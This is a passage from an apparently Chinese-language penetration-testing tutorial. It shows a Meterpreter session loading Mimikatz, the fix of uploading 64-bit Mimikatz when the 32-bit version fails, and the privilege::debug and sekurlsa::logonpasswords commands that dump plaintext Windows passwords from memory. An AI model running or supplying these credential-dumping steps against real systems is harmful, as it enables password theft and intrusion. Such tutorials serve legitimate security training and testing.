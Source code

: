 ```
meterpreter > load mimikatz

Loading extension mimikatz...[!] Loaded x86 Mimikatz on an x64 architecture.

[!] Loaded Mimikatz on a newer OS (Windows 7 (6.1 Build 7601, Service Pack 1).). Did you mean to 'load kiwi' instead?

Success.

meterpreter > help

...

Mimikatz Commands

=================

    Command           Description

    -------           -----------

    kerberos          Attempt to retrieve kerberos creds

    livessp           Attempt to retrieve livessp creds

    mimikatz_command  Run a custom command

    msv               Attempt to retrieve msv creds (hashes)

    ssp               Attempt to retrieve ssp creds

    tspkg             Attempt to retrieve tspkg creds

    wdigest           Attempt to retrieve wdigest creds

meterpreter > wdigest
```

由于 Metasploit 默认加载的是 32 位的 Mimikatz 程序，在 x64 机器上运行会导致 wdigest 读取密码失败了，只能获取密码哈希。

![Drawing 19.png](https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEcKAPB1IAAF7z9fhxL0342.png)

图 20 获取密码哈希

这种情况下，只能自己上传 64 位的 mimikatz 程序去获取明文密码，可以从[官方下载](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip)，运行 mimikatz 后通过以下两条命令，即可实现明文密码的获取：

复制代码

```
# 提升权限

privilege::debug 

# 搜索明文密码

sekurlsa::logonpasswords
```
